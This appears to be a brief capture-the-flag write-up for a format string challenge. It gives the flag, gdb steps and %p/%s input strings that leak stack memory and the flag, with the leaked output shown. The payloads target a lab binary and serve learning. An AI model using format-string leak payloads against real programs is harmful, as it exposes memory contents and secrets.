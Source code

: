 **Flag:** enc0re{f0rm4t_5tr1n6_vuln3r4b1l1ty}

1.  chmod +x format
2.  gdb format
3.  pd main/disas main
4.  set breakpoint b*0x000000000040115c
5.  r
6.  n
7.  you will see that the flag is in the RAX registe
8.  do %p until you see the address to to flag.
9.  to leak out the flag, exit gdb and input %p%p%p%p%p%p >> 0x10x7f03a7a9f8d00x7a667f0x7f03a7a9f8c0(nil)0x7ffd68727140
10. this is the complete flag but in disintegrated addresess 
11. To leak the string form input %p%p%p%p%p%p%s >> 0x10x7f03a7a9f8d00x7a667f0x7f03a7a9f8c0(nil)0x7ffd68727140enc0re{f0rm4t_5tr1n6_vuln3r4b1l1ty}


